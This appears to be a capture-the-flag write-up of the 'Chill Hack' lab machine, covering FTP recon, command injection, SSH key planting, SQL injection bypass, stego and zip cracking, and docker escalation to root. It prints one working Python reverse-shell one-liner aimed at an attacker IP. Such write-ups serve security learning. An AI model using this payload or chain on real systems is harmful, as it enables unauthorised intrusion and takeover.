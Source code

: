 # THM: Chill Hack

## Reconnaissance

The FTP server allowed for anonymous login which contained the file `note.txt`.
It mentioned some type of filtering being in place. 

![File "note.txt from FTP](screenshots/2022-11-14_12-48.png)

![Contents of note.txt](screenshots/2022-11-14_12-49.png)

Directory brute-force of the web server discovered `/secret/` which allowed for
command execution but some basic filtering is in place.

![/secret](screenshots/2022-11-14_12-54.png)

## Initial Access

I used the following python reverse shell payload to get a shell as www-data.

```
export RHOST="10.13.2.223";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![Catching reverse shell as www-data](screenshots/2022-11-14_13-44.png)

This user can run the script `.helpline.sh` as the user apaar. Investigating
the source code you will see that the variable `msg` is being assigned with
`read` (user input) and is then used directly in a command. This allows for us 
to inject our own command such as `/bin/bash` to get a shell as the user apaar.

![Sudo -l output for www-data](screenshots/2022-11-14_13-45.png)

![Contents of helpline script](screenshots/2022-11-14_13-46.png)

![Proof of low-privilege shell](screenshots/user_proof.png)

## Privilege Escalation

Listing the listening ports you will see that port 9001 is listening locally.

![Netstat output](screenshots/2022-11-14_14-10.png)

To access port 9001 from my attacking machine I generated an ssh key pair, added
my public key to apaar's `.ssh/authorized_keys` file, and started a reverse port
forward using ssh. 

![Generating SSH keys](screenshots/2022-11-14_14-11.png)

![Add public key to apaar's authorized keys](screenshots/2022-11-14_14-13.png)

![SSH reverse port forward](screenshots/2022-11-14_14-14.png)

![Can access port 9001](screenshots/2022-11-14_14-15.png)

The login page could be bypassed with a basic SQL injection. Once logged in the
landing page hints to steganography. I downloaded the image and used `steghide`
to extract a password protected zip file that was hidden inside it. I then used
`zip2john` to generate a hash and cracked the password of the zip file. 

![Bypassing login](screenshots/2022-11-14_14-21.png)

![Landing page](screenshots/2022-11-14_14-22.png)

![Steghide](screenshots/2022-11-14_14-24.png)

![Zip2john, and cracking.](screenshots/2022-11-14_14-25.png)

The zip file contained a single file, `source_code.php`. This file contained a
username and base64 encoded password as seen below. 

![Username Anurodh in source_code.php](screenshots/2022-11-14_14-36.png)

![Base64 password in source_code.php](screenshots/2022-11-14_14-37.png)

I decoded the password and logged in as the user anurodh. This user was part of
the docker group. Referencing 
[GTFOBins](https://gtfobins.github.io/gtfobins/docker/) I found a command to
break out of restricted environments that resulted in a root shell. 

![Decoding base64 to retrieve password](screenshots/2022-11-14_14-37_1.png)

![Log in as anurodh with password](screenshots/2022-11-14_14-39.png)

![Proof of root shell](screenshots/root_proof.png)
